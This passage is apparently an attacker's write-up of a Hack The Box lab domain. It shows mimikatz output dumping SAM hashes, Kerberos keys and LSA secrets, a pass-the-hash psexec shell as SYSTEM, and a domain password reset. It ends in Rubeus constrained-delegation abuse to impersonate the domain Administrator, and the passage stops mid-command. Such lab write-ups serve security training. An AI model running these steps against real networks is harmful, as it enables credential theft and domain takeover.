Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

580     {0;000003e7} 1 D 44945          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;003cf91c} 0 D 4019433     PNT-SVRBPA\James        S-1-5-21-2952569584-3195625271-31431492-1001    (11g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 4038181     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz(commandline) # lsadump::sam
Domain : PNT-SVRBPA
SysKey : 796eebc028df9ad69c64f87d7886be77
Local SID : S-1-5-21-2952569584-3195625271-31431492

SAMKey : b6a83a5dc3d09ffaae2e3992535504ae

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 23ea5ff648e7ec7dcd1bfef8e9434099

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 7b1cedf73b1b448644acdf09f02c772f

* Primary:Kerberos-Newer-Keys *
    Default Salt : PNT-SVRBPA.PAINTERS.HTBAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 4e0ad47649eb170aa834c2d523c3dd251c82870d22b10289106788be469b8b1f
      aes128_hmac       (4096) : 7ce04dd700b73aae9b5d94315972200a
      des_cbc_md5       (4096) : 91166bf786c19b4f
    OldCredentials
      aes256_hmac       (4096) : 960d854d0cc119cec75cae1694ca559553669cd7dff0ee81a99359720b3fa3aa
      aes128_hmac       (4096) : 2db668cd0667aa83a084d83506827afe
      des_cbc_md5       (4096) : c176e91040f4208c
    OlderCredentials
      aes256_hmac       (4096) : c2dc69159b14db34fe2d4752332d4ef517266cb81fe459653e5fafc473ad4827
      aes128_hmac       (4096) : 2605c4299898c08c2dfe64eda90ec922
      des_cbc_md5       (4096) : 34b58ab091c75e08

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : PNT-SVRBPA.PAINTERS.HTBAdministrator
    Credentials
      des_cbc_md5       : 91166bf786c19b4f
    OldCredentials
      des_cbc_md5       : c176e91040f4208c


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount

RID  : 000003e9 (1001)
User : James
  Hash NTLM: 8af1903d3c80d3552a84b6ba296db2ea

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 034d74c9d3edc55187fb2928803838b7

* Primary:Kerberos-Newer-Keys *
    Default Salt : BYPASS.PAINTERS.HTBJames
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : a14bd497f5306222ef53e2f2f0ff1a4dfbc2f306708a8420044f71d87a4025c6
      aes128_hmac       (4096) : bc0cec1f4d19c09edb9ac0a90a0fc321
      des_cbc_md5       (4096) : dc373e4cae61e5fb

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : BYPASS.PAINTERS.HTBJames
    Credentials
      des_cbc_md5       : dc373e4cae61e5fb


mimikatz(commandline) # exit
Bye!
```

And secrets from LSASS.exe but nothing interesting came out so far:

```
*Evil-WinRM* PS C:\temp> ./mimikatz.exe "token::elevate" "lsadump::secrets" exit
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:5985  ...  OK

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

580     {0;000003e7} 1 D 44945          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;003cf91c} 0 D 4289584     PNT-SVRBPA\James        S-1-5-21-2952569584-3195625271-31431492-1001    (11g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 4307838     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz(commandline) # lsadump::secrets
Domain : PNT-SVRBPA
SysKey : 796eebc028df9ad69c64f87d7886be77

Local name : PNT-SVRBPA ( S-1-5-21-2952569584-3195625271-31431492 )
Domain name : PAINTERS ( S-1-5-21-1470357062-2280927533-300823338 )
Domain FQDN : painters.htb

Policy subsystem is : 1.18
LSA Key(s) : 1, default {d634d107-fa31-7205-0094-4cb197fe8688}
  [00] {d634d107-fa31-7205-0094-4cb197fe8688} 19a408cd3a159812c9f92e646aa184fa8d490469a628acc1d7b620c6495a261e

Secret  : $MACHINE.ACC
cur/hex : 5d 3c c8 7c f2 60 66 1f 1a 03 9b d4 08 f1 d6 ae d1 20 a0 07 39 2e 50 ed 63 68 7b a6 5d a1 bd 18 1d ac 3f 7a 80 05 0a b0 1f 75 50 23 1e 74 c3 22 7e 10 9f a1 ab 0e 6f d8 11 91 dc dd 7f f4 4d f3 ba 10 ec 0c cf 98 66 5f e5 86 58 51 ea 0c de d3 65 20 98 13 93 1e b3 f2 fe fd 39 ba 12 c9 e8 7a 83 cb a1 90 b6 37 a7 00 18 d7 49 d8 ec fc 60 c6 16 56 4d 5d 99 78 21 b1 9c 87 98 ac 9e 55 dd 9f 63 57 9f 96 60 18 ae 78 a1 c0 37 27 8e 17 cb 22 1a fd 2b 8e 8f 68 ac 46 74 b1 c9 93 8d 19 20 5d 0e de fd da 8d 7f c2 28 a1 15 d3 a8 4e c3 6e f3 e2 0c a6 9e d6 6b 98 68 a6 5a 5f 32 62 fd 21 d1 4c 8a 2f 02 79 fc f8 73 36 29 29 31 f0 fe 64 a2 f6 69 ce db 0b 3a 7b 03 62 a1 a9 1f e0 50 38 60 98 7d 37 bb a2 3c 92 47 97 80 c8 b0 8c 9b 97 fa
    NTLM:2dfcebbe9f5f4cb3bf98032887b3d7b6
    SHA1:f32d8e7d51ed920b1ec936f2f9abdbd65ee25853
old/hex : 34 c8 ef d0 65 3e e7 18 4e c4 f7 10 32 50 3e 42 b8 4f 0a 2c 9c 02 07 30 8f b7 b3 b9 29 b8 7a af be 5c b1 5d 96 41 8c df c0 1e da 93 b9 40 a0 9c 2f 1f 46 03 ae 0e 14 ee e6 3e 59 2b 03 45 a2 05 a3 ee 8e 52 67 bc fd 47 8b 4d 52 b7 c7 97 5c cb 2c b6 2d 70 9a 8b b5 31 5b 37 bf 6f 19 e3 6d 5b cc 17 10 4a 65 a8 b7 47 ab 7f 56 c1 6b f4 b8 aa 07 2a ab 64 58 18 90 21 ef a1 f4 39 18 cb 98 4d 8f b4 4d ec 44 8d 7d 3e 25 94 99 64 56 27 94 93 4d 81 82 26 ba 2e 44 56 38 74 f5 a5 af 74 41 bf 35 7f 8c 38 ac 23 57 c4 50 e5 d8 93 ce 1b 92 95 4a 39 17 09 3a 1c 8b 7b a7 72 16 6f 61 86 cb 9d 0d 6f 9a 3c 3e 0f b0 72 ce 77 3f ef 45 8f bd e7 20 ca 98 c9 f0 63 2f d0 52 cf ab 16 0d 47 65 90 4a 19 87 ce 9e 08 1c 0c 5c 1a 6e 15 1a 5c 05 34
    NTLM:0185a7c52f4c120b1d5b652a9392a0c2
    SHA1:f1601171fef9a5c6d8d6379fa50ba29e775dff8c

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 ad 49 8b ea f7 01 b9 5a 8d d1 96 45 50 c6 31 55 f7 2f 7a 36 f8 46 da f7 0f 12 94 25 8b 24 a9 a5 86 ea fb f0 04 c5 cc 0b
    full: ad498beaf701b95a8dd1964550c63155f72f7a36f846daf70f1294258b24a9a586eafbf004c5cc0b
    m/u : ad498beaf701b95a8dd1964550c63155f72f7a36 / f846daf70f1294258b24a9a586eafbf004c5cc0b
old/hex : 01 00 00 00 fe cd 1b 46 01 f1 f1 be cf 33 b3 89 ff a2 ef f5 d8 bc 8c d3 61 30 d2 e5 0c 7b 21 53 92 30 41 24 22 ed eb 00 71 25 30 77
    full: fecd1b4601f1f1becf33b389ffa2eff5d8bc8cd36130d2e50c7b21539230412422edeb0071253077
    m/u : fecd1b4601f1f1becf33b389ffa2eff5d8bc8cd3 / 6130d2e50c7b21539230412422edeb0071253077

Secret  : NL$KM
cur/hex : 48 6d d8 24 3e d2 25 7b 96 58 d1 98 1b 7a e3 57 79 5b c9 17 d2 e7 e7 1a f9 48 b4 9f d8 6d 1e a8 f8 9b 47 1c b9 e3 b2 e1 ce fc 2c 92 48 01 39 25 a3 aa d4 45 a3 f4 a5 a8 4b 9b de 1f 86 a7 5b b7
old/hex : 48 6d d8 24 3e d2 25 7b 96 58 d1 98 1b 7a e3 57 79 5b c9 17 d2 e7 e7 1a f9 48 b4 9f d8 6d 1e a8 f8 9b 47 1c b9 e3 b2 e1 ce fc 2c 92 48 01 39 25 a3 aa d4 45 a3 f4 a5 a8 4b 9b de 1f 86 a7 5b b7

mimikatz(commandline) # exit
Bye!
```

Lastly trying to dump the creds from the  LSASS.exe fails for some reasons:

```
*Evil-WinRM* PS C:\temp> ./mimikatz.exe "debug::privilege" "lsadump::lsa" exit
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:5985  ...  OK

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # debug::privilege
ERROR mimikatz_doLocal ; "debug" module not found !

        standard  -  Standard module  [Basic commands (does not require module name)]
          crypto  -  Crypto Module
        sekurlsa  -  SekurLSA module  [Some commands to enumerate credentials...]
        kerberos  -  Kerberos package module  []
       privilege  -  Privilege module
         process  -  Process module
         service  -  Service module
         lsadump  -  LsaDump module
              ts  -  Terminal Server module
           event  -  Event module
            misc  -  Miscellaneous module
           token  -  Token manipulation module
           vault  -  Windows Vault/Credential module
     minesweeper  -  MineSweeper module
             net  -
           dpapi  -  DPAPI Module (by API or RAW access)  [Data Protection application programming interface]
       busylight  -  BusyLight Module
          sysenv  -  System Environment Value module
             sid  -  Security Identifiers module
             iis  -  IIS XML Config module
             rpc  -  RPC control of mimikatz
            sr98  -  RF module for SR98 device and T5577 target
             rdm  -  RF module for RDM(830 AL) device
             acr  -  ACR Module

mimikatz(commandline) # lsadump::lsa
Domain : PNT-SVRBPA / S-1-5-21-2952569584-3195625271-31431492

RID  : 000001f4 (500)
User : Administrator
ERROR kuhl_m_lsadump_lsa_user ; SamQueryInformationUser c0000003

RID  : 000001f7 (503)
User : DefaultAccount
ERROR kuhl_m_lsadump_lsa_user ; SamQueryInformationUser c0000003

RID  : 000001f5 (501)
User : Guest
ERROR kuhl_m_lsadump_lsa_user ; SamQueryInformationUser c0000003

RID  : 000003e9 (1001)
User : James
ERROR kuhl_m_lsadump_lsa_user ; SamQueryInformationUser c0000003

RID  : 000001f8 (504)
User : WDAGUtilityAccount
ERROR kuhl_m_lsadump_lsa_user ; SamQueryInformationUser c0000003

mimikatz(commandline) # exit
Bye!
```

* * *

## Continuation:

We need to reset the Blakes password first and from what we found in Bloodhound we can only do it from this machine:

```
//we must import Powersploit.ps1 into the server.

//We must inject some credentials that allow LDAP connection since James is only local
$SecPassword = ConvertTo-SecureString 'P@ssw0rd' -AsPlainText -Force
$riley = New-Object System.Management.Automation.PSCredential('PAINTERS\riley', $SecPassword)

//next we should be able to reset it's password (by using Riley's LDAP creds)
$blake = ConvertTo-SecureString 'Coglione1!' -AsPlainText -Force
Set-DomainUserPassword -identity Blake@painters.htb -accountpassword $blake -Credential $riley
```



Unfortunately it's not working and the main reason I think is because the DNS servers is not setup, check this vs .56(where LDAP queries works):

        

So I guess we need to add the DNS and we can check that now is part of: but it's not working so I added temporary DNS record of the DC into .53, and added a AD account into Administrators local group:

```
*Evil-WinRM* PS C:\temp> Get-LocalGroupMember -Group "Administrators"

ObjectClass Name                     PrincipalSource
----------- ----                     ---------------
Group       PAINTERS\Domain Admins   ActiveDirectory
User        PAINTERS\web_svc         ActiveDirectory
User        PNT-SVRBPA\Administrator Local
User        PNT-SVRBPA\James         Local
User        PNT-SVRBPA\yovecio       Local
```

And now we have access and a kerberos ticket into memory:

```
*Evil-WinRM* PS C:\Users\web_svc\Documents> whoami
painters\web_svc
k*Evil-WinRM* PS C:\Users\web_svc\Documents> klist

Current LogonId is 0:0x6cc40a

Cached Tickets: (1)

#0>     Client: web_svc @ painters.htb
        Server: pnt-svrbpa$ @
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 9/11/2023 13:49:50 (local)
        End Time:   9/11/2023 14:04:50 (local)
        Renew Time: 9/18/2023 5:26:49 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x4 -> S4U
        Kdc Called: DC.painters.htb
*Evil-WinRM* PS C:\Users\web_svc\Documents> net user
```

What I was missing was that we needed NT System permission on order to use net user as it uses UAC as block.

The solution is to SMBEXEC or WMIEXEC instead as it invokes a shell as NT SYSTEM instead:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# proxychains impacket-psexec James@192.168.110.53 -hashes :8af1903d3c80d3552a84b6ba296db2ea
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.1.dev1+20230728.114623.fb147c3f - Copyright 2022 Fortra

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[*] Requesting shares on 192.168.110.53.....
[*] Found writable share ADMIN$
[*] Uploading file SKbyxmiN.exe
[*] Opening SVCManager on 192.168.110.53.....
[*] Creating service ryyV on 192.168.110.53.....
[*] Starting service ryyV.....
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[!] Press help for extra shell commands
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
Microsoft Windows [Version 10.0.20348.1726]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```

First i need to find the username SID:

```
logoncount                    : 5
badpasswordtime               : 11/09/2023 11:51:23
distinguishedname             : CN=Blake Morris,CN=Users,DC=painters,DC=htb
objectclass                   : {top, person, organizationalPerson, user}
displayname                   : Blake Morris
lastlogontimestamp            : 11/09/2023 06:46:29
name                          : Blake Morris
objectsid                     : S-1-5-21-1470357062-2280927533-300823338-1107
samaccountname                : blake
logonhours                    : {255, 255, 255, 255...}
codepage                      : 0
samaccounttype                : USER_OBJECT
accountexpires                : 01/01/1601 00:00:00
cn                            : Blake Morris
whenchanged                   : 11/09/2023 12:43:40
instancetype                  : 4
usncreated                    : 12953
objectguid                    : 43a033b8-8939-473a-8ff0-22f1e3fb37a1
sn                            : Morris
lastlogoff                    : 01/01/1601 00:00:00
msds-allowedtodelegateto      : {CIFS/dc.painters.htb, CIFS/DC}
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=painters,DC=htb
dscorepropagationdata         : {19/10/2022 05:27:21, 01/01/1601 00:00:00}
serviceprincipalname          : HTTP/dc.painters.htb
givenname                     : Blake
lastlogon                     : 11/09/2023 13:43:56
badpwdcount                   : 0
useraccountcontrol            : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
whencreated                   : 06/03/2022 18:49:37
countrycode                   : 0
primarygroupid                : 513
pwdlastset                    : 11/09/2023 13:43:40
msds-supportedencryptiontypes : 0
usnchanged                    : 344500
```

Next we can reset it's password:

```
PS C:\temp> $blake = ConvertTo-SecureString 'Coglione1!' -AsPlainText -Force
$blake = ConvertTo-SecureString 'Coglione1!' -AsPlainText -Force
PS C:\temp>

PS C:\temp> Set-DomainUserPassword -identity "S-1-5-21-1470357062-2280927533-300823338-1107" -accountpassword $blake
Set-DomainUserPassword -identity "S-1-5-21-1470357062-2280927533-300823338-1107" -accountpassword $blake
PS C:\temp>
```

Now that we have it's password we can perform a RBCD attack and will follow this guide: https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation

We can see that BLAKE have CIFS(aka FileSystem access) over DC server:

```
PS C:\temp> Get-NetUser -TrustedToAuth
Get-NetUser -TrustedToAuth


logoncount                    : 5
badpasswordtime               : 11/09/2023 11:51:23
distinguishedname             : CN=Blake Morris,CN=Users,DC=painters,DC=htb
objectclass                   : {top, person, organizationalPerson, user}
displayname                   : Blake Morris
lastlogontimestamp            : 11/09/2023 06:46:29
name                          : Blake Morris
objectsid                     : S-1-5-21-1470357062-2280927533-300823338-1107
samaccountname                : blake
logonhours                    : {255, 255, 255, 255...}
codepage                      : 0
samaccounttype                : USER_OBJECT
accountexpires                : 01/01/1601 00:00:00
cn                            : Blake Morris
whenchanged                   : 11/09/2023 13:48:12
instancetype                  : 4
usncreated                    : 12953
objectguid                    : 43a033b8-8939-473a-8ff0-22f1e3fb37a1
sn                            : Morris
lastlogoff                    : 01/01/1601 00:00:00
msds-allowedtodelegateto      : {CIFS/dc.painters.htb, CIFS/DC}
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=painters,DC=htb
dscorepropagationdata         : {19/10/2022 05:27:21, 01/01/1601 00:00:00}
serviceprincipalname          : HTTP/dc.painters.htb
givenname                     : Blake
lastlogon                     : 11/09/2023 13:43:56
badpwdcount                   : 0
useraccountcontrol            : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
whencreated                   : 06/03/2022 18:49:37
countrycode                   : 0
primarygroupid                : 513
pwdlastset                    : 11/09/2023 14:48:12
msds-supportedencryptiontypes : 0
usnchanged                    : 344540
```

Next we have to ask for a TGT for Blake user:

```
PS C:\temp> ./Rubeus.exe asktgt /user:blake /password:Coglione1! /ptt /nowrap
./Rubeus.exe asktgt /user:blake /password:Coglione1! /ptt /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 71DDAFA4193CAA4376AAE61BCFEAF9D5
[*] Building AS-REQ (w/ preauth) for: 'painters.htb\blake'
[*] Using domain controller: 192.168.110.55:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFZDCCBWCgAwIBBaEDAgEWooIEfDCCBHhhggR0MIIEcKADAgEFoQ4bDFBBSU5URVJTLkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMcGFpbnRlcnMuaHRio4IENDCCBDCgAwIBEqEDAgECooIEIgSCBB6OFZHQ8c2awNJTTL4UHNHDVM0PWdI+qLDXgeUqFI1PmjeTP1lYJsqyFQCeNe5HJAUcC4KdMLUOn15ZZNJloLDbxauehAGFABK4qfM3k1uuUpF8mDPRQ3G8WlFVKhSVV13rL3A9uojDaIDip5mhtIEYtjOWOq9HwEoKbD7jCUGodbDgpRhgH5Rm5rR3oMFddD96GPjAlK3j/CgI3PT1qgaKpPzzRwKxR6MnGQnapvcDJLBgo7T2miNfTBosxu5Cw8nECG4W1vZ/P/E3rhgCRCVT+vqO/VufF/P0HCq2LzQ0BXrf1lw60IM1yhOmqdUKhWE8hpBp0Zl9M2/LDW3Q/peU00Jw7lUE94nms4ioZoJtqca4fSx8t9gONenL9SqAaLk9uqQl72KXNaPintqzryH6zVuHXQ57hohxzwNHh94c/a1wFkmYT08ycjh56u3J0BX8T5egclOuE1gJPmd7tzYNl/2GL81/LB4L07MWdHOuj62C5UC+i/8KqJnDTnoAOfPJtCS4MH18DKr1YS8/mn15XzJ884cLM86m7jNbYbUFdU7zaib55hUa3NhXoXemGzjL2NV73MexuK3EjzOGu5TfLZCG1CjYd/jr/BqsYe5pmJhBOJpZz5kmAS/Ydj+x92blDka1PuL4LNfTL/w6HXwwMhFegsiQ8khKQ2J/pimFJat4WLkJIOBNlMB347Iapasr7Nsm79ruX2NGlnoKIXvj+O0Q6u4miG8RaIg/UZOiyr9q8kZZiFTAxSRrMAe1qbkvfyVDra7Nd/F3obMKPiejwlkUH3bZhCMwfmDvYCi3O7BvoO0Rbx+agnE21NCw1Mp/IO3M4UHigFFYlCeAg92DOMU1YKIWxFfLJuR/DVOjAf8oUJgG8daAGfzqcXLhDJnu+D3FlD0f9ngF0Bft90NDh4YvCXJEHNYnxQ26SU1a73ExMMVgXtU1GDBpmf/L3ZJMP/ArmBgVqqnzqF+6ZXpvluY18c3Wql9PKz5mEWUxmAzIOhGK2aM4Mrqh3ZPt9eCW2Reg6b6htrPDyhl1JOSimrODr/mCKPT5dnQnokweZns/c0DH67n6iwPXnZjP7xAuUyZQU0PFEZIYK0gSClU/+570JPI3XJvMO4NaAlw2ODmMPcOCtwthuIhtCccLtC57NiDrkbmeZcr/Cs7E4X1hqhtS8DjpkoHvb7+KLWcZ5lDykRk0uzyDl+nuks2N+g/RD6rRfkYq3888CDADSNG09LR3LnGDfH0oLdVyDTwwAWmtftjwRpWmfrifz4mllf/cTldvbDklWVYsIRtNQOgOyz/d+BovXE1K6I6E5+iYZ2FP/op0LNwZOGdM3OhJXPzVqyDlri8E9rcwGOatu3nVzW+nluUV6LqnAxlymlnRP57vt4AmuO7XuHyo5oLCo4HTMIHQoAMCAQCigcgEgcV9gcIwgb+ggbwwgbkwgbagGzAZoAMCARehEgQQXxvoH6DB0OaL4VVWMsuogaEOGwxQQUlOVEVSUy5IVEKiEjAQoAMCAQGhCTAHGwVibGFrZaMHAwUAQOEAAKURGA8yMDIzMDkxMTE0MDQzNFqmERgPMjAyMzA5MTIwMDA0MzRapxEYDzIwMjMwOTE4MTQwNDM0WqgOGwxQQUlOVEVSUy5IVEKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDHBhaW50ZXJzLmh0Yg==
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/painters.htb
  ServiceRealm             :  PAINTERS.HTB
  UserName                 :  blake
  UserRealm                :  PAINTERS.HTB
  StartTime                :  11/09/2023 15:04:34
  EndTime                  :  12/09/2023 01:04:34
  RenewTill                :  18/09/2023 15:04:34
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  XxvoH6DB0OaL4VVWMsuogQ==
  ASREP (key)              :  71DDAFA4193CAA4376AAE61BCFEAF9D5

PS C:\temp>
```

Lastly using this TGT and the "msds allowed to delegate to" we can ask for a Impersonation on behalf of Administrator on the DC:

```
PS C:\temp> ./Rubeus.exe s4u /ticket:doIFZDCCBWCgAwIBBaEDAgEWooIEfDCCBHhhggR0MIIEcKADAgEFoQ4bDFBBSU5URVJTLkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMcGFpbnRlcnMuaHRio4IENDCCBDCgAwIBEqEDAgECooIEIgSCBB6OFZHQ8c2awNJTTL4UHNHDVM0PWdI+qLDXgeUqFI1PmjeTP1lYJsqyFQCeNe5HJAUcC4KdMLUOn15ZZNJloLDbxauehAGFABK4qfM3k1uuUpF8mDPRQ3G8WlFVKhSVV13rL3A9uojDaIDip5mhtIEYtjOWOq9HwEoKbD7jCUGodbDgpRhgH5Rm5rR3oMFddD96GPjAlK3j/CgI3PT1qgaKpPzzRwKxR6MnGQnapvcDJLBgo7T2miNfTBosxu5Cw8nECG4W1vZ/P/E3rhgCRCVT+vqO/VufF/P0HCq2LzQ0BXrf1lw60IM1yhOmqdUKhWE8hpBp0Zl9M2/LDW3Q/peU00Jw7lUE94nms4ioZoJtqca4fSx8t9gONenL9SqAaLk9uqQl72KXNaPintqzryH6zVuHXQ57hohxzwNHh94c/a1wFkmYT08ycjh56u3J0BX8T5egclOuE1gJPmd7tzYNl/2GL81/LB4L07MWdHOuj62C5UC+i/8KqJnDTnoAOfPJtCS4MH18DKr1YS8/mn15XzJ884cLM86m7jNbYbUFdU7zaib55hUa3NhXoXemGzjL2NV73MexuK3EjzOGu5TfLZCG1CjYd/jr/BqsYe5pmJhBOJpZz5kmAS/Ydj+x92blDka1PuL4LNfTL/w6HXwwMhFegsiQ8khKQ2J/pimFJat4WLkJIOBNlMB347Iapasr7Nsm79ruX2NGlnoKIXvj+O0Q6u4miG8RaIg/UZOiyr9q8kZZiFTAxSRrMAe1qbkvfyVDra7Nd/F3obMKPiejwlkUH3bZhCMwfmDvYCi3O7BvoO0Rbx+agnE21NCw1Mp/IO3M4UHigFFYlCeAg92DOMU1YKIWxFfLJuR/DVOjAf8oUJgG8daAGfzqcXLhDJnu+D3FlD0f9ngF0Bft90NDh4YvCXJEHNYnxQ26SU1a73ExMMVgXtU1GDBpmf/L3ZJMP/ArmBgVqqnzqF+6ZXpvluY18c3Wql9PKz5mEWUxmAzIOhGK2aM4Mrqh3ZPt9eCW2Reg6b6htrPDyhl1JOSimrODr/mCKPT5dnQnokweZns/c0DH67n6iwPXnZjP7xAuUyZQU0PFEZIYK0gSClU/+570JPI3XJvMO4NaAlw2ODmMPcOCtwthuIhtCccLtC57NiDrkbmeZcr/Cs7E4X1hqhtS8DjpkoHvb7+KLWcZ5lDykRk0uzyDl+nuks2N+g/RD6rRfkYq3888CDADSNG09LR3LnGDfH0oLdVyDTwwAWmtftjwRpWmfrifz4mllf/cTldvbDklWVYsIRtNQOgOyz/d+BovXE1K6I6E5+iYZ2FP/op0LNwZOGdM3OhJXPzVqyDlri8E9rcwGOatu3nVzW+nluUV6LqnAxlymlnRP57vt4AmuO7XuHyo5oLCo4HTMIHQoAMCAQCigcgEgcV9gcIwgb+ggbwwgbkwgbagGzAZoAMCARehEgQQXxvoH6DB0OaL4VVWMsuogaEOGwxQQUlOVEVSUy5IVEKiEjAQoAMCAQGhCTAHGwVibGFrZaMHAwUAQOEAAKURGA8yMDIzMDkxMTE0MDQzNFqmERgPMjAyMzA5MTIwMDA0MzRapxEYDzIwMjMwOTE4MTQwNDM0WqgOGwxQQUlOVEVSUy5IVEKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDHBhaW50ZXJzLmh0Yg== /impersonateuser:administrator /domain:painters.htb /msdsspn:CIFS/dc.painters.htb /dc:dc.painters.htb /ptt
./Rubeus.exe s4u /ticket:doIFZDCCBWCgAwIBBaEDAgEWooIEfDCCBHhhggR0MIIEcKADAgEFoQ4bDFBBSU5URVJTLkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMcGFpbnRlcnMuaHRio4IENDCCBDCgAwIBEqEDAgECooIEIgSCBB6OFZHQ8c2awNJTTL4UHNHDVM0PWdI+qLDXgeUqFI1PmjeTP1lYJsqyFQCeNe5HJAUcC4KdMLUOn15ZZNJloLDbxauehAGFABK4qfM3k1uuUpF8mDPRQ3G8WlFVKhSVV13rL3A9uojDaIDip5mhtIEYtjOWOq9HwEoKbD7jCUGodbDgpRhgH5Rm5rR3oMFddD96GPjAlK3j/CgI3PT1qgaKpPzzRwKxR6MnGQnapvcDJLBgo7T2miNfTBosxu5Cw8nECG4W1vZ/P/E3rhgCRCVT+vqO/VufF/P0HCq2LzQ0BXrf1lw60IM1yhOmqdUKhWE8hpBp0Zl9M2/LDW3Q/peU00Jw7lUE94nms4ioZoJtqca4fSx8t9gONenL9SqAaLk9uqQl72KXNaPintqzryH6zVuHXQ57hohxzwNHh94c/a1wFkmYT08ycjh56u3J0BX8T5egclOuE1gJPmd7tzYNl/2GL81/LB4L07MWdHOuj62C5UC+i/8KqJnDTnoAOfPJtCS4MH18DKr1YS8/mn15XzJ884cLM86m7jNbYbUFdU7zaib55hUa3NhXoXemGzjL2NV73MexuK3EjzOGu5TfLZCG1CjYd/jr/BqsYe5pmJhBOJpZz5kmAS/Ydj+x92blDka1PuL4LNfTL/w6HXwwMhFegsiQ8khKQ2J/pimFJat4WLkJIOBNlMB347Iapasr7Nsm79ruX2NGlnoKIXvj+O0Q6u4miG8RaIg/UZOiyr9q8kZZiFTAxSRrMAe1qbkvfyVDra7Nd/F3obMKPiejwlkUH3bZhCMwfmDvYCi3O7BvoO0Rbx+agnE21NCw1Mp/IO3M4UHigFFYlCeAg92DOMU1YKIWxFfLJuR/DVOjAf8oUJgG8daAGfzqcXLhDJnu+D3FlD0f9ngF0Bft90NDh4YvCXJEHNYnxQ26SU1a73ExMMVgXtU1GDBpmf/L3ZJMP/ArmBgVqqnzqF+6ZXpvluY18c3Wql9PKz5mEWUxmAzIOhGK2aM4Mrqh3ZPt9eCW2Reg6b6htrPDyhl1JOSimrODr/mCKPT5dnQnokweZns/c0DH67n6iwPXnZjP7xAuUyZQU0PFEZIYK0gSClU/+570JPI3XJvMO4NaAlw2ODmMPcOCtwthuIhtCccLtC57NiDrkbmeZcr/Cs7E4X1hqhtS8DjpkoHvb7+KLWcZ5lDykRk0uzyDl+nuks2